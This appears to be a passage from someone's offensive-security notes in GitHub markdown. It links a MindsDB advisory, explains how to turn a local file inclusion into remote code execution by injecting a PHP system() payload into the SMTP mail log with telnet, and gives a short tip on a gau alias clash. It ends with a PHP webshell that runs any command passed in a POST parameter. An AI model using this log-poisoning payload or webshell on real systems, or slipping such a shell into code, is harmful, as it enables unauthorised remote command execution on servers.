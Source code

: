 ### REFERENCE-:

- [Mindsdb](https://github.com/mindsdb/mindsdb/security/advisories/GHSA-2g5w-29q9-w6hx)

---------------

### LFI2RCE with /var/log/mail.log

- If you can read port `25` which is `smtp` log `/var/log/mail.log` via Local File Include.The payload below is url-encoded.

![image](https://github.com/user-attachments/assets/257a535c-afcf-417b-bdb2-89cfb70550d5)

- Then, connect to the port and use the details below.

```bash
telnet <ip> 25
MAIL FROM:<toor@gmail.com>
RCPT TO:<?php system($_GET['c']); ?>
```

![image](https://github.com/user-attachments/assets/3224f7ca-ac7e-4a6d-9a31-75575ac98ffd)

- RCE-:

![image](https://github.com/user-attachments/assets/70db8db3-5811-4074-bc70-e8a89b69d31e)

--------------

### Fixing git --auto update alias and gau clash

- Error-:

![image](https://github.com/user-attachments/assets/ec0cf078-bb76-4f06-80bf-b3f80852eb49)

- Rename gau

```
▻ tar xvf gau-linux-amd64.tar
▻ mv gau-linux-amd64 /usr/bin/getallurls
```
- You can get the tar files from [releases](https://github.com/lc/gau/releases)
- Or just remove the alias from `git.plugin.zsh`.Filepath is `~/.oh-my-zsh/plugins/git/git.plugin.zsh`.The alias conflicts with gau.

--------------

### PHP POST parameter webshell

- Code-:

```php
<?php

if (isset($_POST['username'])) {
  echo system($_POST['username']);
}else {
    echo "No username provided";
}
?>
```
